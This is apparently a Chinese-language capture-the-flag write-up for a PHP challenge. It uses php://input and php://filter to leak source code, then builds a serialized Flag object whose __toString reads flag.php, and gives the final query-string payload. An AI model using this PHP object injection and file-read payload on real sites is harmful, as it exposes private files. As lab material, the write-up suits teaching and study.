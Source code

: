 观察到有`file_get_contents()`，用`php://input`POST数据，然后直接执行文件`file=useless.php`，无回显，尝试`php://filter`读取源码，得到base64加密代码，解码得

```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); //这里应该是要读取flag.php这个文件
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

结合两处代码，知道要利用`$password`读取到`flag.php`，写脚本进行序列化

```php
<?php
class Flag{  //flag.php
    public $file='flag.php';
    public function __tostring(){
        if(isset($this->file)){
            echo file_get_contents($this->file);
            echo "<br>";
            return ("U R SO CLOSE !///COME ON PLZ");
        }
    }
}
$a=new Flag();
echo serialize($a);//O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
?> 
```

最后`file=useless.php&password=O:4:%22Flag%22:1:%7Bs:4:%22file%22;s:8:%22flag.php%22;%7D`，这里`file=useless.php`是要执行里面的代码，而上面是用来读取源码

